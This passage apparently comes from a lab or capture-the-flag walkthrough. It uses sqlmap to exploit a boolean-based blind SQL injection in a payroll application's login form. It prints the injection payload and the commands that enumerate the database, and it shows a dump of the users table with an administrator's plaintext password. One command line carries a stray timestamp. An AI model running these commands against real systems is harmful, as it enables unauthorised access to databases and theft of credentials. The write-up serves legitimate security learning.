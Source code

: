 ```sh
> sqlmap -r login.req --batch --technique B --level 5

sqlmap identified the following injection point(s) with a total of 138 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=admin' AND 6183=(SELECT (CASE WHEN (6183=6183) THEN 6183 ELSE
    (SELECT 5981 UNION SELECT 4511) END))-- -&password=admin
---
```

And sure enough, it found the vulnerability we knew about. If it doesn't try increasing
level until it does.

Now we can use sqlmap to gather various information from db.
Current user:
```sh
> sqlmap -r login.req --batch --threads 10 --current-user

remo@localhost
```

Databases:
```sh
> sqlmap -r login.req --batch --threads 10 --dbs

[*] information_schema
[*] payroll_db
```

Tables of the database:
```sh
> sqlmap -r login.req --batch --threads 10 -D payroll_db --tables

+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```

Dump specified table:
```sh
> sqlmap -r login.req --batch --threads 10(15-05-2023 17:40) 
> sqlmap -r login.req --batch --threads 10 -D payroll_db -T users --dump

+----+-----------+---------------+------+-----------------------+------------+
| id | doctor_id | name          | type | password              | username   |
+----+-----------+---------------+------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+-----------------------+------------+
```
